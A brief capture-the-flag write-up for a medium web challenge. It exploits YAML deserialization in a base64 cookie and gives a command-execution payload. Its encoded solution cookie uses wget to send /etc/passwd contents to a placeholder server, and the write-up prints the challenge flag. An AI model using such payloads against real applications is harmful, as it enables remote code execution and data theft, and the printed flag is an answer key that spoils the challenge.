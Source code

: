 # A writeup on Bad Request from cybertalents, Marathon CTF.

- Challenge Name: `Bad Request`
- Level: `Medium`
- Points: `100`
- Category: `Web Security`

## Challenge Descreption
>> we are working on an api for our website , 
>> we didn't decide if YAML would be accurate or not but it is still under construction , we hope our passwd file is secure.


## First Look
as we see we got a json document `api_data	"The api is still under construction, updates coming soon!`
and taking a look at the cookies with the cookie editor we have a cookie called `data`:`YXBpX2RhdGE6IFRoZSBhcGkgaXMgc3RpbGwgdW5kZXIgY29uc3RydWN0aW9uLCB1cGRhdGVzIGNvbWluZyBzb29uIQ==`
when we decode the base64 we get:`api_data: The api is still under construction, updates coming soon!`,
basiclly nothing, but when you think about it it makes sense ofcourse it has something to do with YAML
so look up `YAMl Deserialization` its a YAML RCE.

I found an intereseting payload `yaml: !!python/object/apply:subprocess.check_output ['id']` and it worked
but there is a problem the flag is in `/etc/passwd` and this payload doesn't accept spaces.

so a friend gave me a link `https://xerosecurity.com/wordpress/exploiting-python-deserialization-vulnerabilities/`.

## Solution
I tried a python web server didin't work for me so i tried
`https://requestbin.com/r`

Payload: `Imdvb2RieWUiOiAhIXB5dGhvbi9vYmplY3QvYXBwbHk6b3Muc3lzdGVtIFsid2dldCBodHRwOi8veW91ci13ZWItc2VydmVyLz9gY2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAneydgIl0=` (decode it to know the answer and put your data and decode it again and input it as a cookie)

Flag:`FLAG{aa330d7755f14d398cbfef715bbf36f59a8cfae5}`

Credits to "ItsFadinG" for helping me, and to the creator of the challenge.
